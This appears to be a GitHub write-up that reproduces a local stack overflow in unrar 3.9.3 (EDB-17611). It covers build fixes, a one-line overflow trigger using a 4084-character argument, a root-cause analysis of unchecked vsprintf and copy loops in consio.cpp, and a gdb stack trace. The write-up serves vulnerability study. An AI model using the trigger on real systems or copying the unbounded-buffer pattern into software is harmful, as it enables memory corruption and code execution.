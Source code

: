 # EDB-17611

## Experiment Environment

Ubuntu 14.04 LTS

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/EDB-17611/unrarsrc-3.9.3.tar.gz

tar -xvf unrarsrc-3.9.3.tar.gz
cd unrar
make -f makefile.unix

```

## Problems in Installation & Configuration
```
#elif with no expression
```
Solution: modify #elif as #else
```
array.hpp:43:5: error: 'ErrHandler' was not declared in this scope
	ErrHandler.MemoryError()
```
Solution: at the beginnig of array.hpp, add `extern ErrorHandler ErrHandler`

## How to trigger vulnerability

`unrar/unrar -$(perl -e 'print "A"x4084')`

stack buffer to be overflowed is 4096 bytes long, 4084 bytes of charater A and 24 bytes of added error message is just enough for triggering vulnerability. mainly to change File::hFile's value;

## PoCs

[Unrar 3.9.3 - Local Stack Overflow](https://www.exploit-db.com/exploits/17611/)

## Vulnerability Details & Patch

### Root Cause

consio.cpp:87
```
mprintf() {
	char Msg[4096];
	vsprintf(Msg, fmt); 
	// fmt is "ERROR: Unknown options: " Msg is not large enough so Msg has already been overflowed here
	RawPrint(Msg);
}

RawPrint(char* Msg) {
	File OutFile;
	char OutMsg[4096], *OutPos = OutMsg;
	for (int I = 0; Msg[I]!=0 ; I++) {
		if (Msg[I]!='\r')
			*(OutPos++)=Msg[I]; // only check if Mgs[I]==0 or Msg[I]=='\r', easy to overflow
	}

	OutFile.Write(Msg, strlen(Msg)); // OutFile's member - OutFile::hFile has already been changed due to overflow
}
```

### Stack Trace

```
(gdb) info stack
#0  0x66a77376 in ?? ()
#1  0xc9310807 in ?? ()
#2  0x6851e1f7 in ?? ()
#3  0x68732f2f in ?? ()
```

## References
